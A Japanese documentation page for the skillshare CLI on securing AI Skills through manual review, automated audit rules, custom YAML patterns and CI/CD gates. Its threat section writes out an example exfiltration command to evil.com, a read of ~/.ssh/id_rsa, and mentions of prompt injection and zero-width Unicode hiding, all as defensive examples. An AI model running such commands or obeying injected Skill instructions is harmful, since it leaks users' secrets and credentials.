

# Skill をセキュアに保つ

AI Skill は強力です — ファイルの読み取り、コマンドの実行、システムとのやり取りを AI アシスタントに指示します。このガイドは、Skill のインストールとメンテナンスを取り巻くセキュリティワークフローの構築を助けます。

コマンドの全リファレンスは [`audit`](/docs/reference/commands/audit) を参照してください。

## リスク: AI Skill のサプライチェーン

サンドボックス化されたランタイムで実行される従来のパッケージとは異なり、AI Skill は AI が解釈して直接実行する**自然言語の指示**を通じて動作します。侵害された Skill は AI に次のことを指示できます。

- シークレットの流出（`curl https://evil.com?key=$API_KEY`）
- 認証情報の読み取り（`cat ~/.ssh/id_rsa`）
- プロンプトインジェクションによる安全動作の上書き
- ゼロ幅 Unicode 文字による悪意の隠蔽

:::caution

単一の悪意ある Skill は、AI アシスタントがアクセスできるものすべて — 環境変数、SSH キー、クラウド認証情報、ソースコード — にアクセスできます。自動スキャンは既知のパターンを検出しますが、**人間によるレビューは依然として不可欠です**。

詳細な脅威モデルと検出ルールについては、[なぜセキュリティスキャンが重要なのか](/docs/understand/audit-engine#why-security-scanning-matters) を参照してください。

:::

## 多層防御

単一のレイヤーだけではすべてを捕捉できません。手動レビュー、自動スキャン、カスタムポリシー、CI/CD ゲートを組み合わせましょう。

| レイヤー | ツール | 何をするか |
|-------|------|-------------|
| **レビュー** | 手動 | インストール前に SKILL.md を読み、不審なコマンドがないか確認する |
| **監査** | `skillshare audit` | 自動パターン検出（100以上の組み込みルール、5段階の重大度、6種類のアナライザー） |
| **カスタムルール** | `audit-rules.yaml` | 組織固有のパターン（内部シークレット、許可リストなど） |
| **CI/CD** | パイプラインゲート | リスクのある Skill を導入する PR をブロックする |

### サプライチェーンセキュリティのライフサイクル

セキュリティチェックポイントは Skill のインストール方法（`--track` か通常のインストールか）によって異なります。



**設計上のポイント:**
- **通常の Skill のインストール/更新** — 受理前に監査が実行される。インストール/更新に成功すると `file_hashes` メタデータが書き込まれる
- **Tracked repo のインストールゲート** — 新規の `--track` インストールは、受理前に clone されたリポジトリ全体で監査される
- **Tracked repo の更新ゲート** — `skillshare update` は `git pull` の後に監査を行う。しきい値以上の検出があると、非対話モードでは自動的にロールバックがトリガーされる
- **整合性検証の範囲** — `content-*` のハッシュチェックは `file_hashes` メタデータが存在する場合のみ実行される

## セキュリティチェックリスト

:::tip 3段階のチェックリスト

**インストール前:**
- [ ] Source リポジトリをレビューする（スター数、コントリビューター、最近の活動）
- [ ] SKILL.md を読み、`curl`、`wget`、`eval`、認証情報のパスがないか確認する
- [ ] まずドライランする: `skillshare install <source> --dry-run`

**インストール後:**
- [ ] `skillshare audit` を実行し、すべての検出結果をレビューする
- [ ] Skill が「合格」した場合でも HIGH/MEDIUM の検出結果を確認する（デフォルトのしきい値は CRITICAL）
- [ ] 定期的に再監査する — 新しいルールが以前は検出されなかったパターンを捕捉することがある

**チーム向け:**
- [ ] 設定で `audit.block_threshold: HIGH` を設定する
- [ ] 組織固有のシークレットパターン用にカスタムルールを作成する
- [ ] 共有 Skill リポジトリの CI パイプラインに監査を追加する
- [ ] 定期的なスキャンをスケジュールする（下記の [定期スキャン](#periodic-scanning) を参照）

:::

## 組織のポリシー

### ブロックしきい値

デフォルトのしきい値は `CRITICAL` の検出結果のみをブロックします。チームにはより厳しいしきい値をお勧めします。

```yaml
# ~/.config/skillshare/config.yaml
audit:
  block_threshold: HIGH  # HIGH と CRITICAL の検出結果をブロック
```

これにより、難読化、破壊的なコマンド、隠されたコンテンツインジェクションといった、Skill ファイルにおいてほぼ常に悪意があるパターンを捕捉できます。

### カスタムルール

組織固有の検出パターンを追加します。よくあるユースケース:

- 内部 API キーの形式（`corp-api-key-*`、`internal-token-*`）
- 許可されないドメインやサービス
- 信頼された CI 自動化に対する誤検出の抑制

```yaml
# ~/.config/skillshare/audit-rules.yaml
rules:
  - id: internal-token-leak
    severity: HIGH
    pattern: internal-token
    message: "Internal API token pattern detected"
    regex: '(?i)\b(corp-api-key|internal-token)-[A-Za-z0-9]{10,}\b'

  - id: destructive-commands-2
    severity: MEDIUM
    pattern: destructive-commands
    message: "Sudo usage (downgraded for CI automation)"
    regex: '(?i)\bsudo\s+'
```

カスタムルールの全リファレンス（マージのセマンティクス、ルールの無効化、除外パターン）については、[`audit rules` — カスタムルール](/docs/reference/commands/audit-rules#custom-rules) を参照してください。

### 定期スキャン {#periodic-scanning}

ルールは進化します — インストール時にはクリーンだった Skill が、後で追加された新しいルールに一致することがあります。定期的なスキャンをスケジュールしましょう。

```bash
# crontab: 毎週すべての Skill をスキャンし、結果をログに記録
0 9 * * 1 skillshare audit --json >> /var/log/skillshare-audit.json 2>&1
```

## CI/CD 統合

### 基本的なパイプラインゲート

```bash
# いずれかの Skill に HIGH 以上の検出結果があればパイプラインを失敗させる
skillshare audit --threshold high
# 終了コード: 0 = クリーン、1 = 検出結果あり
```

### 実例: Skill Hub の PR 検証

[skillshare-hub](https://github.com/runkids/skillshare-hub) コミュニティリポジトリでは、`skillshare audit` を使って Pull Request をゲートしています。Skill を変更するすべての PR は自動的にスキャンされ、監査結果が PR コメントとして投稿されます。

```yaml
# .github/workflows/validate-pr.yml (簡略化)
name: Validate PR
on:
  pull_request:
    paths: ['skills/**']

jobs:
  audit:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: runkids/setup-skillshare@v1
        with:
          source: ./skills
          audit: true
          audit-threshold: high
```

完全なワークフロー（PR コメントのレポートやアーティファクトのアップロードを含む）については、[validate-pr.yml のソース](https://github.com/runkids/skillshare-hub/blob/main/.github/workflows/validate-pr.yml) を参照してください。

その他の CI/CD パターン（SARIF アップロード、strict プロファイル、手動セットアップ）については、[CI/CD Skill 検証レシピ](/docs/how-to/recipes/ci-cd-skill-validation) を参照してください。

## 関連項目

- [`audit`](/docs/reference/commands/audit) — CLI コマンドリファレンス
- [`audit rules`](/docs/reference/commands/audit-rules) — ルールの管理とカスタマイズ
- [監査エンジン](/docs/understand/audit-engine) — エンジンの仕組み（脅威モデル、リスクスコアリング、階層化）
- [ベストプラクティス](/docs/how-to/daily-tasks/best-practices) — 命名、整理、セキュリティ衛生
- [プロジェクトセットアップ](/docs/how-to/sharing/project-setup) — プロジェクトスコープの Skill 設定
